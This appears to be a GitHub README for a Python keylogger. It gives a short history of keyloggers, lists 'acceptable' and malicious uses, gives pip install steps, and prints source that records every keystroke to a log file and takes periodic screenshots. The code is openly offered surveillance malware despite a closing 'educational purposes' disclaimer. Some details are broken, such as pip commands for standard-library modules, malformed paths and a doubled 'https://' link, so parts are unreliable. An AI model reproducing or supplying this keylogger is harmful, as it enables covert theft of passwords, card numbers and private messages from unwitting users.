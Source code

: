 # Welcome Folks



## This is a basic Keylogger Programme

### About

Keyloggers first appeared on the scene in the late 80’s and early 90’s. One of the earliest keyloggers was writing by a man named Perry Kivolowitz. He posted his source code to net.unix-wizards, net.sources on November 17, 1983.  The program basically operated by locating character lists, or clists, as they were being built by the Unix kernel. <br/>
Keystroke logging, also known as _keylogging_, is simply tracking the keys that are struck on a keyboard. This can be done in multiple ways using a wide variety of hardware devices or software. The reason for its large threat to networks and their security is due to its covertness nature.  Most keyloggers show no signs of any intrusion within the system allowing for them to gain typed information without anyone having knowledge of its actions except for the user who installed it. With the proper keylogger installed on the correct machine a person could easily gain access to a company’s entire network infrastructure. In terms of system critical data or extremely privileged information this could cause problems for a vast amount of people very quickly.

### Applications
**Acceptable uses:**  <br/>
•	Parent monitoring child’s computer usage <br/>
•	Boss monitoring employee’s computer usage <br/>
•	Government retrieving information pertinent to a crime <br/>
**Malicious uses:** <br/>
•	Cracking passwords <br/>
•	Gaining unauthorized information <br/>
•	Stealing credit card numbers <br/>
•	Reading sent emails or messages not intended for public viewing <br/>
•	Retrieving secret names <br/>
•	Stealing account numbers <br/>

### How to Use ?
First of all you need to install all the mentioned python libraries in your device (Here I am assuming that latest Python version is installed in your device).
<br/><b>Write the following commands in the cmd window:</b>

```
pip install mss
```

```
pip install pynput
```


```
pip install threading
```


```
pip install os
```

Once you are done with all these libraries, you can download the "Keylogger.py" script and open it in any of the Python IDE( PyCharm, Jupyter Notebook, Spyder, IDLE..)
<br/>
Now, when you Run the script it will ask for "A Time interval which you want to be there in between each interval" and once you give the input then the keyogger will start tracking.
<br/>
<br />
This Keylogger will make a new Directory on the Desktop named "Keylogger" where all the Screenshots and log file will be stored.

### How to Stop? :red_circle:
In order to stop this Keylogger, you have to stop the python script. 


```python

count=0
keys=[]                  #List all the pressed keys


                                        
class IntervalTimer(Timer):         #Control the Time interval between each Screenshots
    def run(self):
        while not self.finished.wait(self.interval):
            self.function(*self.args, **self.kwargs)
            
            
def write_file(keys):                  #To write the keys to the Files
    with open("C:/Users /Desktop/Keylogger-master/log.txt","a") as f:
        for key in keys:
            k=str(key).replace("'","")
            if k.find("space")>0:     	 #Replace Key_Space with " " in the main file
                f.write(" ")
            if k.find("enter")>0:    	  #Replace Key_Enter with "\n or nextline"
                f.write("\n")
            elif k.find("Key") == -1:   
                f.write(k)
                  

class keylogger_main:
    
    def _build_logs(self):   		#To create the directory which contains all the data
        if not os.path.exists('C:/Users/ Desktop/Keylogger-master'):
            os.mkdir('C:/Users/ Desktop/Keylogger-master')
            os.mkdir('C:/Users/ Desktop/Keylogger-master/Screenshots')
            os.mknod('C:/Users /Desktop/Keylogger-master/log.txt')
    
    def _on_press(self,k):       	#This Function keeps track of pressed keys
        global keys, count
        #print("{0} pressed".format(k))
        keys.append(k)
        count+=1
    
        if count >=10:
            count=0
            write_file(keys)
            keys=[]   
    
    def _keylogger(self):            #Main Funciton to start the key tracker
        with Listener(on_press=self._on_press) as listener:
            listener.join()
            
    def _Screenshot(self):          	 #Main Function to start thr Screenshot tracker
        sct=mss()
        sct.shot(output='C:/Users/Desktop/Keylogger-master/Screenshots/{}.png'.format(time.time()))
    
    def run(self,interval):       		   #Main fucntion to start the keylogger
        
        self._build_logs()
        Thread(target=self._keylogger).start()   #This thread function is used to Run the Keys and Screenshots tracker parallely
        IntervalTimer(interval, self._Screenshot).start()
        
        
km=keylogger_main() 
interval=int(input("Enter the time interval (in sec.) between each Screenshot:"))
km.run(interval)

```
 
Get the complete code [Here](https://https://github.com/Aryan529/Keylogger/) :100:


### Disclaimer:warning:
This undertaking is just for _Educational Purposes_ and the abuse of the data in this venture can result in criminal allegations brought against the people being referred to.<br/> 
I am in no way responsible for the misuse of the information.
